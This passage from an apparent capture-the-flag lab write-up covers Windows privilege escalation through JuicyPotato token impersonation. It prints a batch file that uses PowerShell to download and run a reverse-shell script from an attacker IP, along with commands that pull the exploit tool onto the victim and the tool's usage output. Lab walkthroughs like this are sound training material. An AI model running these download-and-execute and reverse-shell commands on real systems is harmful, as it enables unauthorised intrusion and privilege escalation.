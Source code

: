### Exploiting Admin

For this ```Token Impersonation``` we are going to use ```JuicyPotato.exe```, because it is widely used for exploiting this kind of privilege abuse

Downloading the reverse shell via a ```.bat``` file,

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ cat attack.bat   
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.3:4545/rev.ps1')
```

Downlaoding ```JuicyPotato.exe```

```c
C:\Users\kohsuke\Documents>powershell wget http://10.10.14.3:4545/JuicyPotato.exe -outfile jp.exe 
powershell wget http://10.10.14.3:4545/JuicyPotato.exe -outfile jp.exe

C:\Users\kohsuke\Documents>powershell wget http://10.10.14.3:4545/attack.bat -outfile attack.bat 
powershell wget http://10.10.14.3:4545/attack.bat -outfile attack.bat

C:\Users\kohsuke\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\kohsuke\Documents

09/20/2021  08:40 AM    <DIR>          .
09/20/2021  08:40 AM    <DIR>          ..
09/20/2021  08:40 AM                93 attack.bat
09/18/2017  01:43 PM             2,846 CEH.kdbx
09/20/2021  08:40 AM           347,648 jp.exe
               3 File(s)        350,587 bytes
               2 Dir(s)   7,535,763,456 bytes free
```

```JuicyPotato``` launches a process with ```Impersonated Token``` which requires the program to be launched with escalated privilege and a listening address

```c
C:\Users\kohsuke\Documents>.\jp.exe
.\jp.exe
JuicyPotato v0.1 

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user

```
